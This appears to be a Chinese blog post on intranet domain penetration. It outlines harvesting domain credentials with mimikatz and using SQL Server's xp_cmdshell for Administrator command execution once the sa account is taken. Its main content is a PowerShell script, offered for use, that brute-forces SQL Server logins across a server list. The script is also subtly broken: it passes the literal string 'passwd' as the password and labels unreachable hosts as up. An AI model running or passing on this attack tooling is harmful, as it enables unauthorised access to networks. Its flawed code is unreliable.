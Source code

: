 ```yaml
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---
```


## 1 内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 2 通过弱口令破解sqlserver登录口令。

由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个powershell脚本能够对这个列表进行暴力破解。(windows下powershell好处多多，集成了各种windows功能，并且感觉powershell比bashshell还要强大好用)

破解脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
    $pos = $server.Indexof(".")
    $serverName = $server.Substring(0,$pos)
    if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
        Write-Host "[+] Up $server"
        $serverList += $server
    } else {
        Write-Host "[+] Up $server"
    }
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
    Foreach ($passwd in $passwdFile) {
        Foreach ($server in $serverList) {
            $con = New-Object System.Data.SqlClient.SqlConnection
            $con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
            Try {
                $con.Open()
                Write-Host "[+] Success: $server; $user; $passwd."
                $result += "$server; $user; $passwd"
            }
            Catch {
                Write-Host "[+] Failed: $server; $user; $passwd."
            }
        }
    }
}

$result | out-file "result.txt"
{% endhighlight %}

脚本中server.txt为sqlserver服务器列表，user.txt为用户名列表，passwd为password列表。执行结果保存在脚本目录下的result.txt文件中。

[1]: http://drops.wooyun.org/pentesting/2125